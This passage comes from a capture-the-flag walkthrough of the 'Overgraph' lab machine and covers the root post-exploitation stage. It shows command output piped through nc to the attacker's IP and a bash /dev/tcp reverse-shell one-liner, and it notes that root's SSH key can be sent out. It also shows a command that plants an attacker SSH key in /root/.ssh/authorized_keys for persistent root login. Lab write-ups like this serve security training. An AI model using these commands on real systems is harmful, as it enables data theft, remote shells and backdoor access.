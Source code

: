 ```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
09:47:47.806923 IP 10.10.11.157 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
09:47:47.806980 IP 10.10.14.6 > 10.10.11.157: ICMP echo reply, id 2, seq 1, length 64
tcpdump: pcap_loop: The interface went down
2 packets captured
2 packets received by filter
0 packets dropped by kernel

```

So it’s working, just not getting output.

#### SSH

Without seeing anything, there are many approaches I could take, including:
- Run commands and pipe into `nc` to send back to my VM. It works, and looks like:

  ```

  root@overgraph:~# id | nc 10.10.14.6 443

  ```

  ```

  oxdf@hacky$ nc -lnvp 443
  Listening on 0.0.0.0 443
  Connection received on 10.10.11.157 49866
  uid=0(root) gid=0(root) groups=0(root)

  ```
- Get a reverse shell using `bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'`.
- Check for a root SSH key and send it back over `nc` or `curl`.
- Write my own SSH key into `authorized_keys`.

I’ll use this one line to create the `.ssh` directory if it doesn’t exist, add my key to the `authorized_keys` file (appending so as to not overwrite if it does exist), and then make sure the permissions are good for SSH to trust it:

```

root@overgraph:~# $ mkdir -p /root/.ssh/; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys; chmod 600 /root/.ssh/authorized_keys

```

After that, I’m able to SSH as root:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@graph.htb
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)
...[snip]...
root@overgraph:~# 

```